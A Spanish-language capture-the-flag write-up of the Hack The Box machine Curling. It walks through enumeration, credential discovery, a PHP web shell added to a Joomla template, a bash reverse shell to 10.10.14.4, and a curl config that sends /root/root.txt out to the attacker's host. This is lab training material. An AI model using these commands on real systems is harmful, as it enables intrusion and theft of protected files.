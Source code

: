 ```yaml
---
layout: post
title: Hack The Box Curling Write-Up
date: 2024-11-17
categories: [Write-Ups, HackTheBox, Machine, Easy]
tags: [eJPT, IntroToDante, Easy, Web]
---
```

![Curling Logo](/assets/post_details)
# Hack The Box: Curling Write-Up
La **maquina easy** [Curling](https://app.hackthebox.com/machines/160) de [Hack The Box](https://app.hackthebox.com/) 

## Enumeration
Realizamos la enumeración de puertos y de servicios en los que encontramos abiertos los puertos:
- 22 - SSH -> `OpenSSh 7.6p1`
- 80 - HTTP -> `Apache httpd 2.4.29`, el cual contiene el **CMS** **Joomla!**.
```bash
# Escaneo de todos los puertos abiertos
nmap -p- -sS -n --min-rate 5000 --open 10.10.10.150 -oN tcp_scan.txt

# Escaneo puertos especificos
nmap -p22,80 -Pn --min-rate 5000 -n -sCV --open 10.10.10.150 -oN full_scan.txt
```
![NMAP](/assets/post_details/curling/curling_nmap.png)
### HTTP(80) - Joomla!
Se trata de un blog, donde el usuario **Super User** ha agregado varios posts, en estos posts existen varias palabras entre comillas o que pueden ser interesantes como `pebble`, `Floris`, `curl`, `curling2018`.
![WebPage](/assets/post_details/curling/curling_webpage.png)

Realizando un `Ctrl + O` o analizando el codigo, avistamos un comentario sobre un posible archivo en el sistema **secret.txt**.
![Secret Code](/assets/post_details/curling/curling_secret.png)

Este archivo existe en la raiz de la aplicación web, contiene un string encriptado con algun tipo de metodo de encriptación.
![Secret Note](/assets/post_details/curling/curling_show_secret.png)

Probramos a decodificarlo con **base64** y con exito obtenemos un string parecido a uno de los del texto, aunque este tiene una `!` por lo que podria tratarse de una credencial.
![base64](/assets/post_details/curling/curling_base64.png)

Una vez tenemos lo que puede ser la credencial debemos de obtener el nombre de usuario, si analizamos este post acaba dejando un nombre, normalmente esto se hace para dejar quien ha escrito el texto. En este caso el string es `Floris`, aunque en el login lo probaremos todo en lowercase `floris`.
![Username Joomla](/assets/post_details/curling/curling_username_joomla.png)

Mediante la ruta `administrator`, el cual es el acceso de administración del **CMS Joomla!**, en el que introducimos las credenciales y con exito obtenemos acceso al panel.
![Login Admin](/assets/post_details/curling/curling_login_admin.png)
## FootHold
### Template RCE Joomla!
Existen varias maneras de tomar el control desde **Joomla!** una de ellas es la [siguiente](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla):
- Clicar en `Templates`, abajo a la izquierda en el menu de `Configuration`.
- Clicar en una nombre de template, por ejemplo `protostar`, debajo de la cabecera de `Templates`, esto nos llevara a pagina de modificación de templates
- Finalmente deberemos de editar un archivo del template, en nuestro caso editamos el `error.php` agregandole `system($_GET['cmd'])`.
![RCE](/assets/post_details/curling/curling_rce.png)

Una vez tenemos realizada la modificación del archivo **php**, mediante **curl** mandamos una petición con la flag `?cmd=`, y el comando que queramos que se ejecute a nivel de sistema.
![Curl RCE](/assets/post_details/curling/curling_curl_rce.png)

Para conseguir acceso al sistema nos levantamos un **listener** por el puerto **443** en mi caso e introducimos un **reverse shell** de bash apuntando a nuestro servidor y conseguirmos acceso al sistema como **www-data**:
```bash
curl -s "http://10.10.10.150/templates/protostar/error.php?cmd=bash -c "bash -i >%26 /dev/tcp/10.10.14.4/443 0>%261"
```
![Get www-data](/assets/post_details/curling/curling_get_www-data.png)
## PrivEsc
### www-data -> floris
Una vez hecho realizamos un **Tratamiento de TTY** para así poder trabajar de una mejor manera.

Empezamos a enumerar el sistema buscando la credencial del usuario **floris** para asi poder escalar privilegio, encontramos un archivo en el home del usuario `floris`, al cual tenemos permisos de lectura, aunque es un archivo en binario por lo que no lo podemos leer. 
![Password Backup](/assets/post_details/curling/curling_password_backup.png)

Aunque con [CyberChef](https://cyberchef.org) podemos realizar un **magic decrypt** para asi ver el contenido del archivo.
En este caso el archivo binario, contiene un archivo en txt llamado **password.txt** el cual contiene una credencial.
![CyberChef](/assets/post_details/curling/curling_cyberchef.png)

Esta credencial nos sirve para escalar privilegio al usuario **floris**.
![Get User](/assets/post_details/curling/curling_get_user.png)
### floris -> get_flag
Utilizamos **pspy** para la enumeración de tareas cron en el sistema, para esto nos descargamos la herramienta **pspy64**, y la transferimos con la herramienta **scp**, comunicación a traves del protocolo **ssh**.
```bash
mv /home/ant0/Downloads/pspy64 .
chmod +x pspy64
scp pspy64 floris@10.10.10.150:/home/floris
```

Podemos que el usuario **root** esta realizando algunas tareas cada cierto tiempo, en este caso copia el contenido del archivo `/root/default.txt` a `/home/floris/admin-area/input` el cual contiene `url = 127.0.0.1`.

El comando con **curl** realiza lo siguiente:
- La opción **-K** le indica a curl que lea un archivo de configuración en la ruta `/home/floris/admin-area/input`. 
  Este archivo puede contener múltiples opciones de configuración para curl, como la URL del servidor, encabezados personalizados.
- Con `-o /home/floris/admin-area/report` el contenido resultante de la solicitud HTTP será guardado en `/home/floris/admin-area/report`.
![Cron Tasks](/assets/post_details/curling/curling_show_cron.png)

Lo que podemos realizar para capturar la flag es de apuntar a nuestra maquina con la propiedad **url** y con **data** hacia la flag: 
```bash
url = "http://10.10.14.4"
data = @/root/root.txt
```

Nos abrimos un listener en nuestra maquina por el puerto 80 y cuando la tarea se vuelva a ejecutar nos mostrara la flag:
![Get Flag](/assets/post_details/curling/curling_get_system_flag.png)
